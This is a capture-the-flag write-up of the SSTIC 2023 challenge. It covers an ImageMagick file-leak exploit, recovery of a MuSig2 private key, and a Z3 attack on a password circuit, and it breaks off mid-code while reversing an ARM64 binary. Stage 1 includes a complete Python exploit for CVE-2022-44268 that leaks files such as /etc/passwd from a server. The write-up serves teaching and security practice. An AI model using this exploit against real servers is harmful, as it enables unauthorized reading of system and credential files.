





Author: Robert Xiao (@nneonneo)

[__TOC__]

## Introduction

Another year, another [SSTIC challenge](https://www.sstic.org/2023/challenge/)! It was great fun this year and I was introduced to a lot of new concepts in a short time. This year's challenge featured a more parallel structure, with two short intro challenges leading up to a set of four "key recovery" challenges that could be completed in any order, and culminating in a final blockchain-based reversing challenge. This year was particularly heavy on cryptography, but also featured a bit of web exploitation, quite a bit of reverse engineering, and binary exploitation. As usual, the goal was to recover an email address ending in `@sstic.org` and send an email to complete the challenge. Along the way, flags could be captured and (optionally) submitted to the website to publicly display progress.

My timeline of the stages runs as follows (all times in my timezone, GMT-7); a fuller accounting of time is given in the [Timeline](#timeline) section.

- Fri Mar 31, 10:00 am: Start the challenge.
- Fri Mar 31, 10:05 am: Complete stage 0.
- Fri Mar 31, 10:55 am: Complete stage 1.
- Fri Mar 31, 1:14 pm: Complete stage 2.a. (I retrieved the key at this time, but did not submit the flag until 3:43pm)
- Fri Mar 31, 3:40 pm: Complete stage 2.b.
- Sat Apr 1, 5:13 am: Complete stage 2.d.
- Sun Apr 2, 4:57 am: Finish solving stage 3, but still need stage 2.c key to progress.
- Sun Apr 2, 8:06 am: Complete stage 2.c.
- Sun Apr 2, 8:13 am: Complete stage 3.
- Sun Apr 2, 8:22 am: Send email to complete the challenge.

The challenge this year was highly parallel, unlike the linear setup from the two past years. Everything necessary to solve 2.a~2.d and 3 (essentially all remaining challenges) was made available after solving stage 1. The challenge was presented in French, as usual, but most of the challenge is language-agnostic, and English translations are provided in this writeup.

The release of the challenge included this announcement:

<pre>
Salud deoc’h!

Your new Trois Pains Zéro bakery has decided to innovate in order to avoid queues
and allow you to taste our flagship recipe: the famous quatre-quarts (pound cake).
From July 1, 2023, you will only need to acquire a Non-Fungible Token (NFT)
from our collection [on OpenSea](https://testnets.opensea.io/assets/goerli/0x43F99c5517928be62935A1d7714408fae90d1896/1), and present it in store to receive your precious cake.

The purchase page will soon be available for all our customers and we hope to see you soon
at the store.

Delightfully yours,

Your Trois Pains Zéro bakery
</pre>

> The challenge is to access the NFT purchasing interface on the bakery site before anyone else, and to prove it by contacting the pastry chef by email to an address of the form ^[a-z0-9]{32}@sstic.org.

## Tools Used

Here, I list all of the tools that I used throughout the challenge.

- Computer: 2019 MacBook Pro, macOS 12.6.3
- Text editor: BBEdit
- VMWare Fusion 11, with an Ubuntu 20.04 VM:
    - gdb 12.1
    - qemu-user
- [Ghidra 10.2.3](https://ghidra-sre.org/)
- Python 3.10
    - [pwntools](https://github.com/Gallopsled/pwntools)
    - [Z3](https://github.com/Z3Prover/z3)
    - various cryptography/blockchain libraries as provided by the challenges (starknet-py, ecpy, bip-utils, etc.)
- [thoth tools for Cairo](https://github.com/FuzzingLabs/thoth)
- [SageMath 9.0](https://www.sagemath.org/)

## Stage 0

The introduction announcement includes a link to an NFT [on OpenSea](https://testnets.opensea.io/assets/goerli/0x43F99c5517928be62935A1d7714408fae90d1896/1), which depicts a [cute dog wearing a lobster costume and pastry chef hat](chall/stage0/nft.png). Checking the contract [on Etherscan](https://goerli.etherscan.io/address/0x43f99c5517928be62935a1d7714408fae90d1896), we see two files, [ERC1155.sol](chall/stage0/ERC1155.sol) and [TroisPainsZeroJNF.sol](chall/stage0/TroisPainsZeroJNF.sol). In TroisPainsZeroJNF.sol, we see this:

```js
string constant BASE_URI =
    'data:application/json;base64,eyJuYW1lIjogIlRyb2lzIFBhaW5zIFplcm8iLAogICAgICAgICAgImRlc2NyaXB0aW9uIjogIkxvYnN0ZXJkb2cgcGFzdHJ5IGNoZWYuIiwKICAgICAgICAgICJpbWFnZSI6ICJodHRwczovL25mdC5xdWF0cmUtcXUuYXJ0L25mdC1saWJyYXJ5LnBocD9pZD0xMiIsCiAgICAgICAgICAiZXh0ZXJuYWxfdXJsIjogImh0dHBzOi8vbmZ0LnF1YXRyZS1xdS5hcnQvbmZ0LWxpYnJhcnkucGhwP2lkPTEyIn0K';
```

This base64 blob decodes to

```js
{"name": "Trois Pains Zero",
          "description": "Lobsterdog pastry chef.",
          "image": "https://nft.quatre-qu.art/nft-library.php?id=12",
          "external_url": "https://nft.quatre-qu.art/nft-library.php?id=12"}
```

Indeed, if we visit [the URL](https://nft.quatre-qu.art/nft-library.php?id=12), we get an SVG showing the lobster dog. Checking the other IDs, we find that [ID #1](https://nft.quatre-qu.art/nft-library.php?id=1) contains [a flag](chall/stage0/1.svg): `SSTIC{6a4ec745c1403b1ebf09fbd5a3021d1226330197641d4f65008ba0cd0fe48c62}`! Stage 0 done.

## Stage 1

If we don't supply an `id` parameter, we get [this page](https://nft.quatre-qu.art/nft-library.php), which offers to resize images for creating an NFT gallery. If we upload a PNG picture, it will resize it; uploading any other kind of picture seemingly produces the error "Invalid image header". In the HTTP headers, we find the line `X-Powered-By: ImageMagick/7.1.0-51`.

Checking online, we find that this version of ImageMagick is vulnerable to [CVE-2022-44268](https://twitter.com/JFrogSecurity/status/1621158368839892993), which provides an arbitrary remote file leak when converting PNG files. [This blog post](https://www.metabaseq.com/imagemagick-zero-days/) provides a great overview of the bug and the code path in ImageMagick that triggers it. It's extremely easy to exploit: adding a `tEXt` chunk of type `profile` with a file path (e.g. `/etc/passwd`) as the content is sufficient; the converted image will contain a `zTXt` (compressed text) chunk containing the contents of the target file.

I started by simply submitting the PoC given in the blog post, which worked perfectly and dumped the contents of `/etc/passwd`. Then I wrote a simple script, [`dl_file.py`](files/stage1/dl_file.py) to construct PNG files and download arbitrary remote documents:

```python
import requests
import struct
import zlib
import sys
import io
import base64
import os

PNG_SIG = b"\x89PNG\r\n\x1a\n"

# from pypng
def write_chunk(outfile, tag, data=b''):
    data = bytes(data)
    outfile.write(struct.pack("!I", len(data)))
    outfile.write(tag)
    outfile.write(data)
    checksum = zlib.crc32(tag)
    checksum = zlib.crc32(data, checksum)
    checksum &= 0xffffffff
    outfile.write(struct.pack("!I", checksum))

def write_chunks(out, chunks):
    """Create a PNG file by writing out the chunks."""

    out.write(PNG_SIG)
    for chunk in chunks:
        write_chunk(out, *chunk)

def chunks(infile):
    sig = infile.read(8)
    assert sig == PNG_SIG
    while 1:
        chunk = infile.read(8)
        if not chunk:
            return
        length, type = struct.unpack("!I4s", chunk)
        data = infile.read(length)
        assert len(data) == length
        checksum = infile.read(4)
        assert len(checksum) == 4
        yield (type, data)

def make_cve_png(filename):
    chunks = [
        (b"IHDR", bytes.fromhex("00 00 00 01 00 00 00 01 01 00 00 00 00")),
        (b"IDAT", bytes.fromhex("08 D7 63 68 00 00 00 82 00 81")),
        (b"tEXt", b"profile\0" + filename.encode("utf8") + b"\0"),
        (b"IEND", b""),
    ]
    f = io.BytesIO()
    write_chunks(f, chunks)
    return f.getvalue()

filename = sys.argv[1]
png = make_cve_png(filename)
r = requests.post("https://nft.quatre-qu.art/nft-library.php", data=dict(filedata=base64.b64encode(png)))
r.raise_for_status()
for ctype, cdata in chunks(io.BytesIO(r.content)):
    if ctype == b"zTXt" and cdata.startswith(b"Raw profile type"):
        data = zlib.decompress(cdata.split(b"\0\0", 1)[1])
        clean_filename = os.path.abspath(os.path.join("/1/2/3", filename))
        os.makedirs("leak/" + os.path.dirname(clean_filename), exist_ok=True)
        with open("leak/" + clean_filename, "wb") as outf:
            outf.write(bytes.fromhex(data.split(None, 1)[1].decode()))
        break
    print(ctype, cdata)
else:
    print("Error: no zTXt found!")
```

Running this to download [`nft-library.php`](chall/stage1/nft-library.php) produced the full original script, which contains this useful comment (translated):

```
// SSTIC{8c44f9aa39f4f69d26b91ae2b49ed4d2d029c0999e691f3122a883b01ee19fae}
// A backup of the infrastructure is available in the following files
// /backup.tgz, /devices.tgz
//
```

That's the stage 1 flag! I then used `dl-file.py` again to download [`backup.tgz`](chall/backup.tgz) and [`devices.tgz`](chall/devices.tgz).

## Main Challenge

Unpacking `backup.tgz` and `devices.tgz` yields a whole bunch of new files, including [`backup/info.eml`](chall/backup/info.eml), which reads (translated):

```
Hi Bertrand,

As you know, we are setting up the infrastructure for the upcoming release of our NFT on https://trois-pains-zero.quatre-qu.art/.
We have chosen to protect our administration interface using 4 of 4 multi-signature encryption using different devices to store private keys.


As a reminder, you will find the necessary files in the backup:

- the script I used to participate in the multi-signature protocol: musig2_player.py. I've also included the signature log file we made last Thursday along with our 4 public keys.

- a digital wallet for which you have the password: seedlocker.py

- a physical device, available here device.quatre-qu.art:8080, I think Charly has the password. If you want to test on your own equipment you will find the UI update on the backup server with the libc used. We have set up limitations, one based on proof of work, we have also provided you with the solver script (pow_solver.py) and a password "fudmH/MGzgUM7Zx3k6xMuvThTXh+ULf1".
The password is not the one for the equipment but the one for the protection.

- For the last equipment, Daniel lost his pin code.
We tried to extract the information by attacking the secure memory with fault injections but without success 😒.
For information, secure memory takes a mask as an argument and uses the stored value XORed with the mask. The measurements we made during the experiment are stored in data.h5. It is too large for backup but you can retrieve it at this address: https://trois-pains-zero.quatre-qu.art/data_34718ec031bbb6e094075a0c7da32bc5056a57ff082c206e6b70fcc864df09e9.h5.
Maybe you know someone who could help us find the information?


Good luck!
```

The remaining files are as follows:

- [`backup/flags`](chall/backup/flags): Encrypted flag files and a decryption routine
- [`backup/server`](chall/backup/server): The source code for the server running at https://trois-pains-zero.quatre-qu.art/
- [`devices`](chall/devices): Device-specific files for each of the devices which store private keys.

Reading through the server code, we can see that it will require a multi-signature using all four keys to access the admin area, then it will require a coupon code in order to actually order an NFT. In fact, the code which validates the coupon is stored on a Starknet blockchain which we can freely interact with, meaning that everything we need to solve the remainder of the challenge is provided in this package.

Our goal, then, is to recover the four private keys (corresponding to stages 2.a through 2.d) to construct a signature to access the admin area, then construct a valid coupon by reverse-engineering the Starknet blockchain contract (Stage 3), and finally contact the pastry chef (which, according to the server code, will require solving some kind of CAPTCHA). Let's go!

Note that, below, I show the stages in logical order, but this is not the order in which I actually solved the challenges. I solved them in the order 2a, 2b, 2d, 3 and 2c. In other words, I determined how to generate coupons for the final step before actually having all the private keys. Hence, it only took me a few minutes to go from solving 2.c to solving the entire challenge.

## Stage 2.a

The description for the stage 2.a files ([`devices/deviceA`](chall/devices/deviceA)) reads:

> the script I used to participate in the multi-signature protocol: musig2_player.py. I've also included the signature log file we made last Thursday along with our 4 public keys.

MuSig2 is a multiparty signature algorithm. In brief, it allows N users with separate private/public keys to jointly sign a message which can be validated using an aggregated public key. This signature algorithm is the one which is needed in step 3 to log in as an admin.

In this challenge, the author of the email ("A") provides [public keys for all participants](chall/devices/deviceA/baker_pubkey.py), [code for implementing their end](chall/devices/deviceA/musig_player.py) of the MuSig2 protocol (N=4) and [a log of their interactions](chall/devices/deviceA/logs.txt) with the MuSig2 aggregator; the code for the aggregator is not provided and is not needed for this challenge.

Briefly, the MuSig2 algorithm over elliptic curves works in two rounds. Let $G$ be the generator of the curve, $p$ be the order of the curve, $(x_i, X_i)$ be the private/public key pair for each user $i$ and $L$ be the full set of public keys. Let $\mathbf{H}_\mathrm{agg}, \mathbf{H}_\mathrm{non}, \mathbf{H}_\mathrm{sig}$ be hash functions (taking arbitrary inputs and producing numbers in $\mathbb{Z}_p$. Except for the private keys, all of the parameters here are provided to us in [`baker_pubkey.py`](chall/devices/deviceA/baker_pubkey.py) and [`musig2_player.py`](chall/devices/deviceA/musig2_player.py). Let $m$ be the message to be signed.

- In the first round, each user $i$ selects $N$ nonce values $r_{i,j}$, and computes $R_{i,j} = r_{i,j} G$. Each user sends their $R_{i,j}$ values to the aggregator.
- The aggregator takes these $R_{i,j}$ values, computes $R_j = \sum_i R_{i,j}$, and sends the aggregated $R_j$ values to each user.
- In the second round, each user computes key aggregation coefficients $a_i = \mathbf{H}_\mathrm{agg}(L, X_i)$, the aggregate public key $X = \sum_{i} a_i X_i$ and the values $b = \mathbf{H}_\mathrm{non}(X, (R_1, ..., R_N), m)$, $R = \sum_{j} b^{j-1} R_j$ and $c = \mathbf{H}_\mathrm{sig}(X, R, m)$.
- Each user $i$ computes an individual signature share $s_i = ca_i x_i + \sum_j r_{i,j} b^{j-1} \mod p$ and sends it to the aggregator.
- The aggregator finally computes $s = \sum_i s_i \mod p$, and outputs $(R, s)$ as the aggregated signature.

We're provided with a full log of everything sent to and received from the aggregator for five different signatures, from A's point of view (we do not see the traffic for the other participants).

Normally, nonces should be chosen randomly for maximum security. With many signature schemes, the nonce can also be chosen using a hash function of the message, so long as the same nonce is not used to sign two distinct messages. In the provided implementation of MuSig2, they are using this hash-based approach:

```python
def get_nonce(x,m,i):
    # NOTE: this is deterministic but we shouldn't sign twice the same message, so we are fine 
    digest = int.from_bytes(hashlib.sha256(i.to_bytes(32,byteorder="big")).digest(),byteorder="big")
    m_int = int.from_bytes(m, "big")
    return pow(x*m_int, digest, order)
```

The hash function used here is unusual and a bit suspicious. In particular, the exponent is $\mathbf{H}(i)$, where $i$ can only be $1, 2, 3, 4$.

Recall that $s_i = ca_i x_i + \sum_j r_{i,j} b^{j-1} \mod p$ and we can see $s_1$ in our log file. Expanding this using our implementation of `r = get_nonce(...)`, we have $s_1 = ca_1 x_1 + \sum_j (x_1 m) ^ {\mathbf{H}(j)} b^{j-1} \mod p$. In this equation, we know everything except $x_1$, which means that this is actually just a polynomial over $x_1$! Furthermore, since the exponent of $x_1$ is either 1 or $\mathbf{H}(j)$, we can actually treat this as being a linear equation in the five unknowns $x_1$, $x_1 ^ {\mathbf{H}(1)}$, $x_1 ^ {\mathbf{H}(2)}$, $x_1 ^ {\mathbf{H}(3)}$, $x_1 ^ {\mathbf{H}(4)}$. We happen to have five equations, corresponding to the five observed signatures, so we can find $x_1$ by simply solving a linear system of equations in $\mathbb{Z}_p$.

All we need to do is whip up [a script](files/stage2a/extract.py) to recalculate the necessary values and spit out the system of equations:

```python
from ecpy.curves import Curve, Point
import hashlib
from dataclasses import dataclass
import ast
import sys
import baker_pubkey
from musig2_player import Hash_agg, Hash_non, Hash_sig, key_aggregation

cv = Curve.get_curve("secp256k1")
G = cv.generator
order = cv.order

exps = [int.from_bytes(hashlib.sha256(i.to_bytes(32,byteorder="big")).digest(),byteorder="big") for i in range(1, 4+1)]

@dataclass
class Message:
    msg: bytes
    sent_Rs: list[Point]
    recv_Rs: list[Point]
    sent_s: int
    recv_s: int

def parse_points(s: str) -> list[Point]:
    s = [int(c, 0) for c in s.split()]
    return [Point(s[i], s[i+1], cv) for i in range(0, 8, 2)]

chunks = open("../../chall/devices/deviceA/logs.txt").read().split("=====")
messages = []
for chunk in chunks:
    rows = [r.split(": ", 2)[2] for r in chunk.strip().split("\n")]
    messages.append(Message(
        ast.literal_eval(rows[1]),
        parse_points(rows[2]),
        parse_points(rows[3]),
        int(rows[4], 0),
        int(rows[5], 0),
    ))

def get_nonce_coeff(m, i):
    digest = int.from_bytes(hashlib.sha256(i.to_bytes(32,byteorder="big")).digest(),byteorder="big")
    m_int = int.from_bytes(m, "big")
    return pow(m_int, digest, order)

nb_players = 4
L = [baker_pubkey.MY_PK, baker_pubkey.BERTRAND_PK, baker_pubkey.CHARLES_PK, baker_pubkey.DANIEL_PK]
a = Hash_agg(L, baker_pubkey.MY_PK)

print("polys = [")
for m in messages:
    # first round
    nonce_coeffs = [get_nonce_coeff(m.msg, j+1) for j in range(nb_players)]
    # second round
    X = key_aggregation(L)
    b = Hash_non(X, m.recv_Rs, m.msg)

    R = Point.infinity()
    for j in range(len(L)):
        exp = pow(b, j, order)
        R += exp * m.recv_Rs[j]
    c = Hash_sig(X, R, m.msg)

    poly_coeffs = [(c * a) % order]
    for j in range(nb_players):
        poly_coeffs.append((nonce_coeffs[j] * pow(b,j,order)) % order)

    print(poly_coeffs, end=",\n")
print("]")

print("s =", [m.sent_s for m in messages])
```

We can then feed everything into a short [Sage script](files/stage2a/solve.sage) to solve the system and get our first private key:

```python
polys = [...]
s = [...]

n = 115792089237316195423570985008687907852837564279074904382605163141518161494337

A = matrix(GF(n), polys)
b = matrix(GF(n), s).transpose()
xs = A.solve_right(b)
print(xs[0][0])
```

This spits out 32397748964588217353341318317432783880090649436123362081161843221664749742056, our first private key! We can feed it to [`flags/crypt.py`](chall/backup/flags/crypt.py) to get the corresponding flag: `SSTIC{dc3cb2c61cb0f2bdec237be4382fe3891365f81a0fb1c20546d888247dd9df0a}`.

## Stage 2.b

The description for the stage 2.b files ([`devices/deviceB`](chall/devices/deviceB)) reads:

> a digital wallet for which you have the password: seedlocker.py

We're given [`seedlocker.py`](chall/devices/deviceB/seedlocker.py) and [`seed.bin`](chall/devices/deviceB/seed.bin). `seedlocker.py` defines two classes `G` and `E`; `E` is responsible for the password check, and loads a bunch of state out of `seed.bin`.

The password is sent to the `E` instance two bits at a time via `e.set_uint()`. The password is checked as follows:

```python
password = bytes.fromhex(sys.argv[1])
e = E()

for b in password:
    for i in range(4):
        key = (b >> (i * 2)) & 3
        e.set_uint(e.key, key)
        for _ in range(2):
            e.step()

if e.get_uint(e.good) == 1:
    ...
```

My thought process for reversing this roughly looked like this:

1. `e.gs` is a list of `G` instances which are referred to by index in `e.get` and `e.set_uint`.
2. `set_uint` is setting the `value` of several `G` instances in `e.gs`.
3. `step` basically calls `e.get` on several `G` instances (by index).
4. `e.get` does a single binary operation from a single `G` depending on that `G`'s type and value.
5. Those binary operations look like "and", "or", "xor" and "not" with optional inversion of inputs.
6. This looks like a digital circuit, with each `G` representing a single digital logic gate, and where `step` effectively updates the simulation of the circuit. `dff` (`g.kind == 9`) elements are flip-flops, which are clocked each step.

So, we can infer that the password is fed two bits at a time to two input gates (kind 3), then processed through a big digital circuit which eventually produces a "1" bit at a specific gate (`e.good`, gate 1940) if the password is accepted. I decided to first try and graph the circuit to create a digital logic diagram. [`seedlocker_graph.py`](files/stage2b/seedlocker_graph.py) generates a Graphviz diagram which can be rendered into a huge graph. Here's a small chunk of the graph (click for the full thing as a PDF):

> [](files/stage2b/seedlocker.pdf)

It's not very interpretable, unfortunately. But there's a small circuit off to the right hand side that does look interesting:

> [](files/stage2b/timingloop.png)

This piece takes only constant inputs, and produces an output in `and_4853` which is fed to the AND gates, ultimately feeding into the `e.good` gate (`and_1940`). If we print out the value of `and_4853` as we step the simulation, we get the following repeating 256-element sequence:

`0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0`

There's a single `1` at step 80, and 0s everywhere else. This tells us that the password is most likely 80 bits long (two steps for every two bits of the password). We can confirm this by printing out the output of `ff_3128_0`, confirming that it goes to 1 after 81 steps and stays there; as its output is inverted to the next AND, any password longer than 80 bits will never validate.

I tried to apply similar logic to understanding the other inputs to the `e.good` gate, printing out their values while varying the password, but was not able to make any headway - the circuit is too convoluted. So, I turned instead to just solving for the password using an SMT solver, Z3.

In brief, all of the gate operations, including the flipflops, can be represented symbolically as operations on (unknown) password bits, resulting in a logical equation that can be solved by a boolean satisifability solver. Although such problems are NP-hard in the general case, most circuits are not that complex, and SMT solvers like Z3 have a lot of tricks to attack such problems.

All we have to do is modify the script to compute gate values symbolically instead of concretely - password inputs are rewritten as Z3 `Bool` variables, and boolean operations are replaced by Z3 operators where appropriate. A relatively straightforward transformation yields the script [`seedlocker_z3.py`](files/stage2b/seedlocker_z3.py), which spits out a password `995b90996f4564409191` after a few minutes!

Trying this password in the original [`seedlocker.py`](chall/devices/deviceB/seedlocker.py) works perfectly, and spits out the following output:

```
Seed: easy sponsor novel jazz theory marble era hurt transfer ball describe neutral   
Private key: 0x81e8d3a6ad341da46e6361b7c1c376b5423e7ad04748077b93a0c20263305824
Public key X: 0x206aeb643e2fe72452ef6929049d09496d7252a87e9daf6bf2e58914b55f3a90
Public key Y: 0x46c220ee7cbe03b138a76dcb4db673c35e2ab81b4235486fe4dbd2ad093e8df4
```

We have B's private key! We can finally take this private key to decrypt our stage 2b flag: `SSTIC{f5967cae6478fa6bb9ea1bc758aee0961a68a8b4767f74888ce0bb8563a6218e}`.

## Stage 2.c

The description for the stage 2.c files ([`devices/deviceC`](chall/devices/deviceC)) reads:

> a physical device, available here device.quatre-qu.art:8080, I think Charly has the password. If you want to test on your own equipment you will find the UI update on the backup server with the libc used. We have set up limitations, one based on proof of work, we have also provided you with the solver script (pow_solver.py) and a password "fudmH/MGzgUM7Zx3k6xMuvThTXh+ULf1". The password is not the one for the equipment but the one for the protection.

### Reversing the Front-End

We're given [`frontend_service.bin`](chall/devices/deviceC/frontend_service.bin), a Linux ARM64 binary, along with the corresponding [`ld.so`](chall/devices/deviceC/ld-linux-aarch64.so.1) and [`libc.so`](chall/devices/deviceC/remote_lib.so.6). We're also provided with a [proof of work solver](chall/devices/deviceC/pow_solver.py).

To make interacting with the server faster, I rewrote the challenge solver to use multiprocessing ([`chalsolve.py`](files/stage2c/chalsolve.py)); it takes just a second or two to solve the remote PoW with this on my laptop.

I used Ghidra to reverse `frontend_service.bin`. The service launches a server on port 1336, which we can connect to on device.quatre-qu.art:8080 after entering the password and solving the PoW. It connects to another server on 127.0.0.1:1337 (the "backend"), which I was able to simulate with simply `cat` (as `socat tcp-l:1337,reuseaddr,fork exec:cat`).

`main` looks like this:

```c
int client_fd[2];
int server_fd;

client_fd[0] = -1;
client_fd[1] = -1;
server_fd = create_server(1336,0);
do {
  client_fd[1] = connect_compute("127.0.0.1",1337);
} while (client_fd[1] == -1);
client_fd[0] = server_accept_conn(server_fd);
clear_msgs();
memset(&exc_msg,0,0x148);
